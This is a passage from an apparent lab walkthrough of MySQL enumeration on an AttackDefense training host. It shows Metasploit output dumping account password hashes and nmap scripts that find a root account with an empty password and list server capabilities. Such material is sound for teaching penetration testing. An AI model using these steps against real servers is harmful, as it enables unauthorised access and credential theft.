 ```bash
[+] 192.15.56.3:3306      - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.15.56.3:3306      - Saving HashString as Loot: root:
[+] 192.15.56.3:3306      - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.15.56.3:3306      - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.15.56.3:3306      - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.15.56.3:3306      - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.15.56.3:3306      - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.15.56.3:3306      - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
[*] 192.15.56.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 10. Check whether anonymous login is allowed on MySQL Server.

Answer: _`root`_` ``and`` `_`anonymous`_` ``users login is permitted without password.`

```bash
root@attackdefense:~# nmap --script mysql-empty-password -p3306 192.15.56.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 16:09 UTC
Nmap scan report for target-1 (192.15.56.3)
Host is up (0.000044s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-empty-password: 
|_  root account has empty password
MAC Address: 02:42:C0:0F:38:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

> 11. Check whether “InteractiveClient” capability is supported on the MySQL server.

Answer: `"InteractiveClient" is supported on the server.`

<figure><img src="../../../../../.gitbook/assets/image (86).png" alt=""><figcaption><p>InteractiveClient</p></figcaption></figure>

```bash
root@attackdefense:~# nmap --script mysql-info -p3306 192.15.56.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 16:10 UTC
Nmap scan report for target-1 (192.15.56.3)
Host is up (0.000043s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 54
|   Capabilities flags: 63487
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsTransactions, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, SupportsCompression, Support41Auth, ODBCClient, LongPassword, InteractiveClient, LongColumnFlag, ConnectWithDatabase, Speaks41ProtocolNew, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
```